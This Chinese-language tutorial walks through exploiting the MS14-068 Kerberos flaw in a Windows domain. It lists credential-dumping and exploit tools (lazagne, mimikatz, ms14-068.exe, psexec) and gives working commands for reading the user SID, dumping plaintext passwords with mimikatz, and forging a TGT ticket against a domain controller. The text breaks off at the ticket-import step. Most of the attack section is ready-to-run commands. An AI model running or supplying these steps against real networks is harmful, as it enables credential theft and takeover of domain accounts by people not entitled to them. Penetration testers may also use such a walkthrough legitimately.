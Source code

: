- lazagne（获取windows hash的工具）
- mimikatz（获取windows hash的工具）
- adfind（域内扫描工具）
- [ms14-068.exe](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068)（ms14-068漏洞利用工具）
- psexec.exe（域内提权工具）

#### 1. 获取当前域用户的sid

漏洞利用需要获取到一个普通的域账户，包括账户名，密码或者hash。

使用lazagne或者mimikatz可以抓取到域账户信息，需要将工具上传到目标主机上。

通过域账户执行命令 

```shell
C:\Users\User>whoami /user

用户信息
----------------

用户名              SID
=================== =============================================
k4ys0n\user S-x-x-xx-xxxxxxxxx-xxxxxxxxxx-xxxxxxxxxx-xxxx
```

可以获取到当前域账户的sid。

#### 2. 生成TGT票据

使用 adfind获取域控的主机名字。

使用mimikatz可以获取主机明文密码：

```shell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

使用以下命令攻击域内主机：

```shell
ms14-068.exe -u [用户名]@[域名] -p [密码] -s [sid] -d [域控主机名].[域名]
```

注意-d后面只能跟正确的域控主机名.域名，而不能用ip

```shell
ms14-068.exe -u temp@k4ys0n.com -p 123456 -s S-x-x-xx-xxxxxxxxx-xxxxxxxxxx-xxxxxxxxxx-xxxx -d AdServer.k4ys0n.com
```

执行完成会生成票据文件`TGT_temp@k4ys0n.com.ccache`

#### 3. 导入票据

可以先命令行输入以下命令来清空当前票据：

```shell
klist purge
```

